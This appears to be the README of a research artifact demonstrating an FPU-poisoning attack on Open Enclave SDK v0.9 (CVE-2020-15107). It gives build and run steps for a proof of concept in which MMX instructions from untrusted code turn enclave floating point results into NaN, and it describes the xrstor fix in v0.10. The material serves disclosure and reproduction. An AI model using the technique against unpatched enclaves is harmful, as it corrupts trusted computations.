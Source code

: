 # Proof of concept attack on OpenEnclave

[![build status](https://travis-matrix-badges.herokuapp.com/repos/fritzalder/faulty-point-unit/branches/master/5)](https://travis-ci.org/github/fritzalder/faulty-point-unit)

Open Enclave were the initial project to address the core issue described in the paper by using `ldmxcsr/cw` instructions. Following this patch, we started to investigate the issue described in the paper. During our investigation, we discovered a subclass of the issue, namely the MMX attack vector.

## Background and affected runtimes

The trusted enclave entry code reset the x87 FPU control word and SSE MXCSR control registers. We observed, however, that Open Enclave used `ldmxcsr/cw` instructions, instead of a full `xrstor` (as patched in e.g. in the Intel SGX-SDK):

 <https://github.com/openenclave/openenclave/commit/efe75044d215d43c2587ffd79a52074bf838368b>

This left a possibility to corrupt enclaved floating point operations (using the x87 FPU) by issuing MMX instructions in untrusted code before enclave entry. As of publication of this artifact, Microsoft has also decided to apply a full `xrstor` instruction to mitigate this here described issue (see below for details on the patch and associated CVE).

## Building and running the proof-of-concept exploit

The `hello-fpu` directory contains a minimal proof-of-concept OE application developed with an unmodified vulnerable Open Enclave SDK. The PoC shows that untrusted code could affect the integrity (expected outcome) of x87 floating point operations by silently replacing them with `NaN` values.

**Note (Docker simulator).** Building and installing OpenEnclave dependencies can be tricky. We therefore recommend to use the Docker container provided by the OpenEnclave team with all dependencies pre-installed, as documented [here](https://github.com/openenclave/openenclave/blob/v0.9.0/docs/GettingStartedDocs/Contributors/BuildingInADockerContainer.md). This is the easiest way to run the example exploit in the OE simulator. In our Dockerfile, we replicate their efforts by manually installing old versions of the required debian packages that were necessary for the vulnerable and patched versions of OpenEnclave.

**Note (OE packages).** For convenience, the current directory includes prebuilt Debian packages for both the vulnerable OE v0.9 and the patched OE v0.10. These are _unmodified_ OE packages that can alternatively also be downloaded from the [official OE release page](https://github.com/openenclave/openenclave/releases).

Proceed as follows to run the proof-of-concept FPU poisoning attack on the vulnerable and patched OE versions.

```bash
$ docker run -i -t oeciteam/oetools-full-18.04

# 1. Clone faulty-point-unit repo
root@oe-docker# cd ~
root@oe-docker# git clone https://github.com/fritzalder/faulty-point-unit.git
root@oe-docker# cd faulty-point-unit/02_table2_affected_runtimes/openenclave/
root@oe-docker# git submodule init && git submodule update

# 2. Install vulnerable OE SDK
root@oe-docker# sudo dpkg -i Ubuntu_1804_open-enclave_0.9.0_amd64.deb
root@oe-docker# source /opt/openenclave/share/openenclave/openenclaverc

# 3. Run proof-of-concept FPU poisoning attack in OE simulation mode
root@oe-docker# cd hello-fpu/ && make
root@oe-docker# make simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
Running in simulation mode
Running in sim mode
Hello world from the enclave
Result = -nan

## 4. Install patched OE SDK
root@oe-docker# sudo dpkg -i ../Ubuntu_1804_open-enclave_0.10.0_amd64.deb
root@oe-docker# source /opt/openenclave/share/openenclave/openenclaverc

# 5. Run proof-of-concept FPU poisoning attack in OE simulation mode
root@oe-docker# make clean && make
root@oe-docker# make simulate
host/helloworldhost ./enclave/helloworldenc.signed --simulate
Running in simulation mode
Running in sim mode
Hello world from the enclave
Result = 0.246914
```

## Disclosure and mitigation

This issue was acknowledged by Microsoft and assigned CVE-2020-15107 (OpenEnclave security advisory [GHSA-7wjx-wcwg-w999](https://github.com/openenclave/openenclave/security/advisories/GHSA-7wjx-wcwg-w999)). Our proposed mitigation of using an `xrstor` was addressed and incorporated in version 0.10.0.
